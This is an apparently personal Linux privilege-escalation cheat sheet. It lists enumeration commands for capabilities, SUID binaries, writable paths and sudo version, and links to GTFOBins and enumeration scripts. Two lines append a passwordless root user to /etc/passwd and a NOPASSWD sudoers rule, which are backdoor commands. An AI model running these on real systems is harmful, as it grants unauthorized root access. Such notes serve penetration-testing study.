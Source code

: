 # Privilege Escalation

## Linux
**Commands:**
```
1. getcap -r / 2>/dev/null

2. find / -perm -u=s -type f 2>/dev/null
   // Harden: chmod u-s /usr/bin/find

3. find -writable 2>/dev/null | cut -d "/" -f 2 | sort -u

4. find / -writable 2>/dev/null | grep home | cut -d "/" -f 2,3 | sort -u

5. sudo -V // to check sudo version, which might be vulnerable.

6. echo "vickie::0:0:System Administrator:/root/root:/bin/bash" >> /etc/passwd

7. echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

8. groups // Don't forget about groups.

9. docker (https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

10. find / -type f -executable -group users 2>/dev/null
    //To find a file that can be executed by a specific group.
```
**Use:**
https://gtfobins.github.io/

<hr>

### Basic Linux enumeration
https://cyberlab.pacific.edu/resources/linux-enumeration-cheat-sheet

**Get Privilege Escalation vectors:**
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker

## Windows
_nothing yet_